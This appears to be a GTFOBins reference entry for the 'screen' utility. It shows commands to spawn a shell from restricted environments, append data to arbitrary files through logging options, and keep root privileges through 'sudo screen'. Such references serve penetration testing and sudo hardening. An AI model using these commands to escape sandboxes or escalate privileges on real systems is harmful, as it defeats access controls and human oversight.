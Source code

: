 # GTFOBin: screen

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
screen
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

This works on screen version 4.06.02. Data is appended to the file and `\n` is converted to `\r\n`.

```
LFILE=file_to_write
screen -L -Logfile $LFILE echo DATA
```

This works on screen version 4.05.00. Data is appended to the file and `\n` is converted to `\r\n`.

```
LFILE=file_to_write
screen -L $LFILE echo DATA
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo screen
```